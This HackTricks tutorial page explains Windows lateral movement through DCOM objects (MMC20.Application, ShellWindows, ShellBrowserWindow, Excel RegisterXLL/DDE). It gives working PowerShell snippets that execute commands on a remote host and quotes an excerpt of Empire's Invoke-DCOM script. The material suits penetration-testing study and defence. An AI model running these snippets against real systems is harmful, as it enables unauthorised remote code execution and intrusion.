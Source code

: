 # DCOM Exec

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

## MMC20.Application

**DCOM** (Distributed Component Object Model) objects are **interesting** due to the ability to **interact** with the objects **over the network**. Microsoft has some good documentation on DCOM [here](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and on COM [here](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). You can find a solid list of DCOM applications using PowerShell, by running `Get-CimInstance Win32_DCOMApplication`.

The [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) COM object allows you to script components of MMC snap-in operations. While enumerating the different methods and properties within this COM object, I noticed that there is a method named `ExecuteShellCommand` under Document.ActiveView.

![](<../../.gitbook/assets/image (4) (2) (1).png>)

You can read more on that method [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). So far, we have a DCOM application that we can access over the network and can execute commands. The final piece is to leverage this DCOM application and the ExecuteShellCommand method to obtain code execution on a remote host.

Fortunately, as an admin, you can remotely interact with DCOM with PowerShell by using “`[activator]::CreateInstance([type]::GetTypeFromProgID`”. All you need to do is provide it a DCOM ProgID and an IP address. It will then provide you back an instance of that COM object remotely:

![](<../../.gitbook/assets/image (665).png>)

It is then possible to invoke the `ExecuteShellCommand` method to start a process on the remote host:

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows & ShellBrowserWindow

The **MMC20.Application** object lacked explicit “[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)”, resulting in the default permission set allowing Administrators access:

![](<../../.gitbook/assets/image (4) (1) (2).png>)

You can read more on that thread [here](https://twitter.com/tiraniddo/status/817532039771525120).\
Viewing which other objects that have no explicit LaunchPermission set can be achieved using [@tiraniddo](https://twitter.com/tiraniddo)’s [OleView .NET](https://github.com/tyranid/oleviewdotnet), which has excellent Python filters (among other things). In this instance, we can filter down to all objects that have no explicit Launch Permission. When doing so, two objects stood out to me: `ShellBrowserWindow` and `ShellWindows`:

![](<../../.gitbook/assets/image (3) (1) (1).png>)

Another way to identify potential target objects is to look for the value `LaunchPermission` missing from keys in `HKCR:\AppID\{guid}`. An object with Launch Permissions set will look like below, with data representing the ACL for the object in Binary format:

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

Those with no explicit LaunchPermission set will be missing that specific registry entry.

### ShellWindows

The first object explored was [ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx). Since there is no [ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx) associated with this object, we can use the [Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET method paired with the[ Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx) method to instantiate the object via its AppID on a remote host. In order to do this, we need to get the [CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx) for the ShellWindows object, which can be accomplished using OleView .NET as well:

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

As you can see below, the “Launch Permission” field is blank, meaning no explicit permissions are set.

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

Now that we have the CLSID, we can instantiate the object on a remote target:

```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```

![](https://enigma0x3.files.wordpress.com/2017/01/remote\_instantiation\_shellwindows.png?w=690\&h=354)

With the object instantiated on the remote host, we can interface with it and invoke any methods we want. The returned handle to the object reveals several methods and properties, none of which we can interact with. In order to achieve actual interaction with the remote host, we need to access the [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx) method, which will give us back an object that represents the Windows shell window:

```
$item = $obj.Item()
```

![](https://enigma0x3.files.wordpress.com/2017/01/item\_instantiation.png?w=416\&h=465)

With a full handle on the Shell Window, we can now access all of the expected methods/properties that are exposed. After going through these methods, **`Document.Application.ShellExecute`** stood out. Be sure to follow the parameter requirements for the method, which are documented [here](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745\(v=vs.85\).aspx).

```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellwindows\_command\_execution.png?w=690\&h=426)

As you can see above, our command was executed on a remote host successfully.

### ShellBrowserWindow

This particular object does not exist on Windows 7, making its use for lateral movement a bit more limited than the “ShellWindows” object, which I tested on Win7-Win10 successfully.

Based on my enumeration of this object, it appears to effectively provide an interface into the Explorer window just as the previous object does. To instantiate this object, we need to get its CLSID. Similar to above, we can use OleView .NET:

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

Again, take note of the blank Launch Permission field:

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

With the CLSID, we can repeat the steps taken on the previous object to instantiate the object and call the same method:

```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow\_command\_execution.png?w=690\&h=441)

As you can see, the command successfully executed on the remote target.

Since this object interfaces directly with the Windows shell, we don’t need to invoke the “ShellWindows.Item” method, as on the previous object.

While these two DCOM objects can be used to run shell commands on a remote host, there are plenty of other interesting methods that can be used to enumerate or tamper with a remote target. A few of these methods include:

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

In a similar way it's possible to move laterally abusing DCOM Excel objects, for more information read [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)

```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

## Tool

The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.

## References

* The first method was copied from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/), for more info follow the link
* The second section was copied from [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/), for more info follow the link

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
